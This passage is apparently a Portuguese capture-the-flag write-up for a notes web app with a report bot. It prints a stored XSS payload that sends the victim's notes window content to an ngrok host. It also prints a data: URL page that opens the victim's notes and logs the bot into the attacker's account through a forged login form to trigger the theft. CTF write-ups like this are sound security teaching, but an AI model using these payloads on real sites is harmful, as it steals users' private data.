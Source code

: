 1. Abre-se o ngrok no modo HTTP em alguma porta e pega-se seu link http.

2. Cria-se um usuário `teste:teste`

2. Cria-se uma nota com o seguinte conteúdo:

```html
<script>
if(window.location.search.includes('zz'))
	window.location='http://1af7-179-245-128-2.ngrok.io/'+window.open('', 'n').document.body.textContent
</script>
```

3. Cria-se um report com o seguinte conteúdo:

```html
data:text/html,<form action="http://0.0.0.0:8080/login" method=POST id=l target=_blank>
<input type="text" name="username" value="teste"><input type="text" name="password" value="teste">
</form><script>window.open('http://0.0.0.0:8080/notes','n');setTimeout(`l.submit()`,1000);setTimeout(`window.location='http://0.0.0.0:8080/notes?zz'`,1500)</script>
```

O usuário com a flag acessará essa página local, que acessará suas notas (contendo a flag). Depois de 1 segundo, logará com o usuário `teste:teste` em uma outra janela e depois de 1.5 segundo, acessará as notas do usuário `teste:teste` com o parâmetr GET `zz`, que ativa o trigger que rouba o conteúdo da janela com as notas do usuário contendo a flag. Esse conteúdo é enviado para os logs do ngrok.


![](/Screenshots/Pasted%20image%2020220328184317.png)